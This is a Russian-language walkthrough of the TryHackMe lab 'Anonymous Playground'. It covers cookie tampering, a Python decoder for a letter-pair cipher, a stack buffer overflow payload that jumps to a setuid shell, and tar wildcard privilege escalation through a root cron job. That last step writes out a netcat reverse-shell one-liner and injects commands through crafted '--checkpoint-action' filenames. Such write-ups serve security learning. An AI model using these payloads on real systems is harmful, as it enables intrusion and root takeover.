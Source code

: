 # Anonymous Playground

:white_check_mark:  [**Python "zA" decode**](#Python_zA_decode)

:white_check_mark:  [**Stack Buffer Overflow**](#Stack_Buffer_Overflow)

:white_check_mark:  [**Tar wildcards(privesc)**](#Tar_wildcards(privesc))

___

## Enumeration
Сканируем ip командой:
```
nmap -sC -sV anon.thm
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 60:b6:ad:4c:3e:f9:d2:ec:8b:cd:3b:45:a5:ac:5f:83 (RSA)
|   256 6f:9a:be:df:fc:95:a2:31:8f:db:e5:a2:da:8a:0c:3c (ECDSA)
|_  256 e6:98:52:49:cf:f2:b8:65:d7:41:1c:83:2e:94:24:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Proving Grounds
| http-robots.txt: 1 disallowed entry 
|_/zYdHuAKjP
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Главная страница **anon.thm**:

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Anonymous_Playground/1.png)

Nmap показывает нам директорию, которая содержится в файле robots.txt, перейдем по ней.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Anonymous_Playground/2.png)

Приложение говорит, что у нас нет доступа. Посмотрим cookie сайта.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Anonymous_Playground/3.png)

Возможно изменив значение cookie на "granted" мы получим доступ.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Anonymous_Playground/4.png)

Мы получаем доступ и перед нами появляется какой-то код.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Anonymous_Playground/5.png)

<a name="Python_zA_decode"></a>

В подсказке к машине говорится следующее: "You're going to want to write a Python script for this. 'zA' = 'a' ".  Данный текст был зашифрован следующим образом: берется порядковый номер каждой из двух подряд идущих букв. Их порядковые номера складываются. Затем забираем остатот от деления данного числа на 26(кол-во букв в алфавите). Тоесть:
```
'z' = 26
'A' = 1

'zA' = 26 + 1 = 27

27 % 26 = 1 = 'a'
```

Напишем скрипт, который будет расшифровывать данный текст.
```
def decoding(str_to_dec):
    letters_a_to_z = ""

    for i in range(ord('a'), ord('z') + 1):
        letters_a_to_z += chr(i)

    for i in range(0, len(str_to_dec), 2):
        first_letter = str_to_dec[i]
        second_letter = str_to_dec[i + 1].lower()

        first_letter_to_num = ord(first_letter) - ord('a') + 1
        second_letter_to_num = ord(second_letter) - ord('a') + 1

        letter_decoded = (first_letter_to_num + second_letter_to_num) % 26

        cipher_dec = letters_a_to_z[letter_decoded - 1]

        print(cipher_dec, end="")

decoding("hEzAdCfHzA")
print("")
decoding("hEzAdCfHzAhAiJzAeIaDjBcBhHgAzAfHfN")
```

Получаем имя пользователя и пароль. Подключаемся по ssh.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Anonymous_Playground/6.png)

Читаем записку. В ней пользователь spooky говорит, что написал программу и просит нас ее сломать.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Anonymous_Playground/7.png)

<a name="Stack_Buffer_Overflow"></a>

Перебросив себе на машину эту программу("hacktheworld"), отправим ее в Ghidra. В коде программы можем заметить следующие интересные функции.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Anonymous_Playground/8.png)

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Anonymous_Playground/9.png)

Если мы сможем перейти к setuid, то получим новые права доступа. Попробуем переполнить буффер этой программы. Будем использовать cyclic для создания полезной нагрузки. Перепробовав различные значения, программа начинает выдавать ошибку после 73 символов.

Cyclic 71 > alphabet:

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Anonymous_Playground/10.png)

Cyclic 72 > alphabet:

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Anonymous_Playground/11.png)

Cyclic 73 > alphabet:

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Anonymous_Playground/12.png)

Найдем адрес функции.
```
info functions
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Anonymous_Playground/13.png)

Наш payload будет выглядеть следующим образом: 72 символа + адрес функции с прямым порядком байтов.

Перейдем к машине и с помощью python будет передавать в программу наш payload.

```
python -c 'print "A"*72+"\x57\x06\x40\x00\x00\x00\x00\x00"'  | ./hacktheworld
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Anonymous_Playground/14.png)

Мы получаем то, что нужно, но оболочка прерывается. Это происходит потому, что оболочка выполняется, но не имеет никаких входных данных. Поэтому оболочка в конечном итоге просто завершает работу. Чтобы обойти это, будем использовать команду cat вместе с нашим payload-ом. Получаем оболочку.
```
(python -c 'print "A"*72+"\x58\x06\x40\x00\x00\x00\x00\x00"'; cat)  | ./hacktheworld
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Anonymous_Playground/15.png)

<a name="Tar_wildcards(privesc)"></a>

Просмотрев crontab, можно обнаружить следующий фрагмент:
```
*/1 *   * * *	root	cd /home/spooky && tar -zcf /var/backups/spooky.tgz *
```

Дело в том, что tar страает от загрязнения аргументов. Для экплуатации уязвимости можно использовать Wildcards. Отправим следующие команды для эксплуатации уязвимости:
```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your_ip> <port> >/tmp/f" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```

Запускаем слушать на нашей машине и через некоторое время получаем оболочку с root.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Anonymous_Playground/16.png)
